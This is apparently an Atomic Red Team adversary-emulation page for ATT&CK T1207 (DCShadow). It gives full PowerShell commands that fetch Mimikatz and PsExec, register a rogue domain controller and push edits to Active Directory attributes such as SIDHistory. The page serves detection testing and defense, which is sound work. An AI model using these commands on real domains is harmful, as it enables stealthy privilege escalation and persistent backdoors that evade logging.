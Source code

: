 # T1207 - Rogue Domain Controller
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1207)
<blockquote>Adversaries may register a rogue Domain Controller to enable manipulation of Active Directory data. DCShadow may be used to create a rogue Domain Controller (DC). DCShadow is a method of manipulating Active Directory (AD) data, including objects and schemas, by registering (or reusing an inactive registration) and simulating the behavior of a DC. (Citation: DCShadow Blog) Once registered, a rogue DC may be able to inject and replicate changes into AD infrastructure for any domain object, including credentials and keys.

Registering a rogue DC involves creating a new server and nTDSDSA objects in the Configuration partition of the AD schema, which requires Administrator privileges (either Domain or local to the DC) or the KRBTGT hash. (Citation: Adsecurity Mimikatz Guide)

This technique may bypass system logging and security monitors such as security information and event management (SIEM) products (since actions taken on a rogue DC may not be reported to these sensors). (Citation: DCShadow Blog) The technique may also be used to alter and delete replication and other associated metadata to obstruct forensic analysis. Adversaries may also utilize this technique to perform [SID-History Injection](https://attack.mitre.org/techniques/T1134/005) and/or manipulate AD objects (such as accounts, access control lists, schemas) to establish backdoors for Persistence. (Citation: DCShadow Blog)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCShadow (Active Directory)](#atomic-test-1---dcshadow-active-directory)


<br/>

## Atomic Test #1 - DCShadow (Active Directory)
Use Mimikatz DCShadow method to simulate behavior of an Active Directory Domain Controller and edit protected attribute.

[DCShadow](https://www.dcshadow.com/)
[Additional Reference](http://www.labofapenetrationtester.com/2018/04/dcshadow.html)

It will set the badPwdCount attribute of the target user (user/machine account) to 9999. You can check after with:
Get-ADObject -LDAPFilter '(samaccountname=<user>)' -Properties badpwdcount | select-object -ExpandProperty badpwdcount

Need SYSTEM privileges locally (automatically obtained via PsExec, so running as admin is sufficient), and Domain Admin remotely.
The easiest is to run elevated and as a Domain Admin user.

**Supported Platforms:** Windows


**auto_generated_guid:** 0f4c5eb0-98a0-4496-9c3d-656b4f2bc8f6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| object | Targeted object (for machine account do not forget to add final '$') | string | bruce.wayne|
| attribute | Object attribute to edit, interesting ones: badpwdcount, primaryGroupId, SIDHistory... | string | badpwdcount|
| value | Value to assign to object attribute | string | 9999|
| mimikatz_path | Mimikatz windows executable | path | $env:TEMP&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# starting fake DC server, as SYSTEM (required)
$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:#{attribute} /value:#{value}`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s #{mimikatz_path} $mimikatzParam"

# wait for fake DC server to be ready...
Start-Sleep -Seconds 5

# server ready, so trigger replication (push) and wait until it finished
& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "mimikatz" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip" -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
